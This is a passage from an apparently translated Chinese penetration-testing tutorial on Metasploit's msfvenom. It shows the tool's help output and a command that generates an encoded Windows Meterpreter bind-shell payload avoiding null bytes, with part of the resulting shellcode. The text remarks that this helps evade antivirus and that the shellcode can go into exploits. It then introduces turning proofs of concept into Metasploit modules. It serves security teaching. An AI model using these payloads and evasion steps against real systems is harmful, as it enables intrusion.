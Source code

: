 ```
root@bt:~# msfvenom -h
Usage: /opt/framework/msf3/msfvenom [options]
Options:
-p, --payload [payload] Payload to use. Specify a '-' or stdin to use custom..
-l, --list [module_type] List a module type example: payloads, encoders, nops, all
-n, --nopsled [length] Prepend a nopsled of [length] size on to the payload
-f, --format [format] Format to output results in: raw, ruby, rb, perl, pl, bash..
-e, --encoder [encoder] The encoder to use
-a, --arch [architecture] The architecture to use
-s, --space [length] The maximum size of the resulting payload
-b, --bad-chars [list] The list of characters to avoid example: '\x00\xff'
-i, --iterations [count] The number of times to encode the payload
-c, --add-code [path] Specify an additional win32 shellcode file to include
-x, --template [path] Specify a custom executable file to use as a template
-k, --keep Preserve the template behavior and inject the payload as..
-h, --help Show this message 

```

有一些有趣的参数需要注意。`-n`参数创建有效负载大小的 NOP 滑坡。另一个有趣的参数是`-b`，它使我们有能力避免利用中的常见字符，如`\x00`。这在规避防病毒程序方面非常有帮助。其余的参数与我们可以在`msfpayload`和`msfencode`中找到的参数类似。

### 注意

NOP 滑坡，NOP 滑梯或 NOP 坡是一系列 NOP（无操作）指令，旨在“滑动”CPU 的指令执行流到最终期望的目的地。

## 它是如何工作的...

要使用`msfvenom`，我们将不得不传递有效负载以及编码样式。让我们在终端窗口上执行这个任务：

```
root@bt:~# msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3
[*] x86/shikata_ga_nai succeeded with size 325 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 352 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 379 (iteration=3)
buf =
"\xdb\xdb\xbe\x0a\x3a\xfc\x6d\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x52\x31\x72\x18\x83\xea\xfc\x03\x72\x1e\xd8\x09\xb6" +
"\xce\xc5\x86\x6d\x1a\xa8\xd8\x88\xa8\xbc\x51\x64\xe5\xf2" +
"\xd1\xb7\x80\xed\x66\x72\x6e\x0d\x1c\x68\x6a\xae\xcd\x0e" +
"\x33\x90\x1d\x73\x82\xd8\xd7\xe0\x87\x76\xbd\x25\xf4\x23" +
"\x4d\x38\xc2\xc3\xe9\xa1\x7e\x31\xc5\xe4\x84\x2a\x3b\x37" +
"\xb3\xd6\x13\xc4\x09\x89\xd0\x95\x21\x10\x6b\x83\x94\x3d" + 
```

注意已传递的不同参数。`-b`参数的存在将避免在 shell 代码中使用`\x00`（空字节）。我们可以在我们的利用程序中使用这个 shell 代码。

`msfvenom`可以是一个非常方便的工具，可以快速生成使用框架中可用的不同有效负载的 shell 代码。这些 shell 代码可以在利用代码中实现，以便在利用漏洞后与攻击者提供反向连接。

# 将利用转换为 Metasploit 模块

到目前为止，我们已经使用利用模块来 compromise 我们的目标。在这个配方中，我们将把我们的模块使用经验提升到一个新的水平。我们将尝试使用可用的概念验证来开发一个完整的利用模块。将利用转换为模块的知识对于将任何新的利用转换为框架模块并执行渗透测试而不必等待 Metasploit 团队的更新是必不可少的。此外，并不是每个利用都会以框架模块的形式可用。因此，让我们继续进行配方，并看看我们如何使用可用的概念验证构建我们自己的利用模块。

